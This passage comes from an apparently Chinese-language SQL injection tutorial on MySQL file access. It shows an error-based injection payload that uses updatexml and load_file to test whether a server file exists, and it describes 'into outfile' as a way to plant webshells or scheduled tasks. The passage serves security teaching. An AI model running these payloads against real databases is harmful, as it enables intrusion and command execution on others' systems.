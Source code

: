 

**（2）报错注入扫描文件是否存在**

select load_file()如果文件不存在时，结果为NULL，不会报错。

load_file()可以和报错注入结合，扫描文件是否存在。以下sql语句当文件存在时返回1，不存在时返回0。

```mysql
select * from test where id='1' and updatexml(1,concat(0x7e,(select NOT ISNULL(load_file('D:\\20242272.php'))),0x7e),1)
```

```
ERROR 1105 (HY000): XPATH syntax error: '~1~'
```



#### 4.2.2 写文件

关键函数：`into outfile `

==利用条件==：知道网站目录的绝对路径；有写文件的权限；

危害：可以用于写webshell、写定时任务，从而执行命令。

**（1）查看MYSQL写文件的权限**

当secure_file_priv为NULL时，数据库不允许写文件；当secure_file_priv的值为空时，可以向任意路径写文件。

```mysql
mysql> select @@global.secure_file_priv;
+---------------------------+
| @@global.secure_file_priv |
+---------------------------+
| D:\                       |
+---------------------------+

mysql> select @@secure_file_priv;
+--------------------+
| @@secure_file_priv |
+--------------------+
| D:\                |
+--------------------+
```

```mysql
mysql> SHOW VARIABLES LIKE '%secure%';
+--------------------------+-------+
| Variable_name            | Value |
+--------------------------+-------+
| require_secure_transport | OFF   |
| secure_auth              | ON    |
| secure_file_priv         | D:\   |
+--------------------------+-------+
```

```mysql
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv | D:\   |
+------------------+-------+
1 row in set, 1 warning (0.00 sec)
```
